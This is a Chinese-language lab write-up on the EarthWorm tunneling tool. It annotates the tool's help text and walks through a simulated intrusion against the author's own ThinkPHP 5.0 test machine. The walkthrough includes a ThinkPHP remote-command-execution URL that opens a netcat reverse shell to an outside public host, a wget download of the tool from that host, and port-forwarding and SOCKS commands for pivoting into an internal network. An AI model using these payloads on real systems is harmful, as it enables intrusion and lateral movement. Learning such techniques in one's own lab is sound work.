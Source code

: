 
# - -help 
```
VERSION : free 1.0 
 ./xxx ([-options] [values])*
 options :
 Eg: ./xxx -s ssocksd -h 
 -s state setup the function.You can pick one from the 
 following options:
 ssocksd , rcsocks , rssocks , 
 lcx_listen , lcx_tran , lcx_slave
 # -s 选项选择连接模式，除了lcx的三种模式还有ssocksd正向SOCKS V5服务器、（rcsocks(公网监听转发主机)、rssocks（目标主机））反弹SOCKS V5服务器。
 -l listenport open a port for the service startup.#监听端口
 -d refhost set the reflection host address.#设置反射主机地址（公网IP）
 -e refport set the reflection port.#设置转发到的端口
 -f connhost set the connect host address .#设置连接主机地址（参考lcx的h2）要把这台内网主机的流量转发到公网上
 -g connport set the connect port.#设置要转发出去的端口（参考lcx的p2）
 -h help show the help text, By adding the -s parameter,
 you can also see the more detailed help.# 可以使用 ./ew -s [ssocksd|rcsocks|rssocks|lcx_listen|lcx_tran|lcx_slave]等获取关于具体模式的帮助
 -a about show the about pages # 显示关于
 -v version show the version. #显示版本
 -t usectime set the milliseconds for timeout. The default 
 value is 1000 #忙猜设置超时时间，默认1000  英语不好也可以猜
 ......
```

# 参考教程敲一遍（做个小模拟渗透）
**注：** 
- 攻击机位于我的笔记本上的kali nat联网 ip：192.168.153.133
- 被攻击的是校内我搭建的靶机 ip:10.203.87.64  环境：tp5.0
- 公网主机：45.\*.\*.190
## 做个小模拟渗透
利用命令执行弹shell
  
这次用NC弹shell
http://10.203.87.64/tp5/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc%20-e%20/bin/sh%2045.76.101.190%201235


公网服务器上面监听：
nc -l -p 1235
下载ew
wget -p /tmp http://45.\*.\*.190/ew_for_linux
chmod +x ew_for_linux

## 使用lcx相关的功能（不知道为什么就是用不了 ssh抓包 握手成功了  请求也发出去了  就是没有相应 也不断开连接，从1.0换到1.2也不行，感觉像是防火墙的问题，但是使用lcx却连接上了，同样的端口ew就不行，一切连接都显示正常，就是不回包）
### 将肉鸡的22端口或者内网中的10.203.87.61的80端口转发到公网上8888端口
`./ew_for_linux -s lcx_slave  -d 45.*.*.190 -e 8888    -f 127.0.0.1  -g  6522`

> 第一次用就出了一个问题
```
[root@localhost 45.*.*.190]# ./ew_for_linux -s lcx_slave  -d 45.*.*.190 -e 8888    -f 127.0.0.1  -g  6522
-bash: ./ew_for_linux: /lib/ld-linux.so.2: bad ELF interpreter: 没有那个文件或目录
```
> 解决方案到肉鸡上：yum install glibc.i686，那么如果肉鸡上没有安装权限可能就要换工具了

### 公网服务器监听端口转发8888
` ./ew_for_linux -s lcx_listen -l  8888   -e 8889`


# 直接测试socks代理吧还是

## 打开正向socks V5代理(好像多了一种用工作室的网的方式)
./ew_for_linux -s ssocksd -l 1080

## 反向代理

